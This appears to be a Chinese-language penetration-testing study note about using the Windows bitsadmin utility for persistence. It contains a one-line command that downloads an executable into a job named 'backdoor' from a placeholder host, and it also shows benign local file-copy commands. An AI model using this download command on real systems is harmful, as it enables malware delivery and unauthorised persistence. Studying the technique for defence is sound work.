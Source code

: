 ![image-20220308185838423](Windows权限维持学习/image-20220308185838423.png)

# 0x8.Bitsadmin

>   [BITSAdmin的介绍与Windows渗透测试中的使用](https://toutiao.io/posts/bcz5e1o/preview)
>
>   [bitsadmin一句话下载payload](https://micro8.gitbook.io/micro8/contents-1/41-50/41bitsadmin-yi-ju-hua-xia-zai-payload)

>   Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

window7以上自带：`c:\windows\system32\bitsadmin.exe`

使用功能transfer参数下载

```
.\bitsadmin.exe /transfer backdoor "http://sssssssss/CM.EXE" C:\1.exe
```

复制本地文件：

BITSAdmin遵循文件传输的原则。因此，可以将其用作复制和粘贴命令。这意味着BITSAdmin也能将同一台计算机上的一个位置传输到另一个位置。

```sh
bitsadmin /create whitehat_day #创建一个whitehat_day的任务。
#使用/addfile参数将传输文件添加到whitehat_day任务中，并声明传输的文件名与路径，和保存位置与名称
bitsadmin /addfile whitehat_day d:\file.txt d:\testfile.txt
bitsadmin /resume whitehat_day#使用/resume参数来开启传输。
bitsadmin /complete whitehat_day#以临时文件的形式传输文件。要获取完整的文件，需要使用/complete参数
Get-ChildItem -Path d:\  #查看目标路径下是否存在file.txt
```
